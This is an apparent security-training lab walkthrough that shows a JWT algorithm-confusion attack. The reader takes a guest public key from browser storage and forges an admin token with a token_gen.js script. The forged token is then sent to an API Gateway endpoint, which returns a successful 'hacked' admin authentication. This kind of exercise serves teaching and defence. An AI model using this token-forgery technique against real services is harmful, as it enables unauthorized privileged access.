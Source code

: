 ## Algorithm Confusion

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* Open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploder application.

![](img/login-page.png)

##### Step 3:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer` to select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 4:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `guest_public_key` and `guest_token`
    
    ![](img/click-local-storage.png)

##### Step 5:

* Open Browser

![](img/open-browser.png)


##### Step 6:

* Open `https://www.base64decode.org/` to decode the guest_public_key
   

##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)
    
     
##### Step 8:

* **cd** into `cd /home/vagrant/Desktop/Labs/AWS-Security-Training/lambda/Broken-Access-Control/Algorithm-Confusion`

* Run `touch public_key.pem`

    ```commandline
    root@we45-VirtualBox:/home/vagrant/Desktop/Labs/AWS-Security-Training/lambda/Broken-Access-Control/Algorithm-Confusion# touch public_key.pem
    ```
##### Step 9:


* Run `vim public_key.pem` 

* Run `esc + i` to paste the decoded public key

* Once it is pasted run `esc + wq` to save the file    

##### Step 10:

* Run `node token_gen.js --file public_key.pem --username admin`

   **Note:** Copy the token
        

    ```commandline
    root@we45-VirtualBox:/home/vagrant/Desktop/Labs/AWS-Security-Training/lambda/Broken-Access-Control/Algorithm-Confusion# node token_gen.js --file public_key.pem --username admin
        
    This is your token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODk1Mjc0fQ.XFhJRm1W_58ulrgVJ9_vy7LsGy14VICXCLMQsh8g-nE
    
    ```
    
##### Step 11:

* Run `http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<copied token>`

    ```commandline
    root@we45-VirtualBox:/home/vagrant/Desktop/Labs/AWS-Security-Training/lambda/Broken-Access-Control/Algorithm-Confusion# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODgwMjg2fQ.29E-i4QD21pvpA41oEJx60haJoOpgqbpzbvE6OK-Exg
    HTTP/1.1 200 OK
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
    Access-Control-Allow-Methods: GET,OPTIONS
    Access-Control-Allow-Origin: *
    Access-Control-Max-Age: 0
    Connection: keep-alive
    Content-Length: 114
    Content-Type: application/json
    Date: Tue, 25 Sep 2018 17:12:14 GMT
    Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
    X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
    X-Cache: Miss from cloudfront
    X-Success-Request: true
    x-amz-apigw-id: NyXhKFUHoAMFscA=
    x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601
    
    {
        "decoded": {
            "iat": 1537880286, 
            "status": "hacked", 
            "username": "admin"
        }, 
        "success": "You are successfully authenticated"
    }
    
    ```

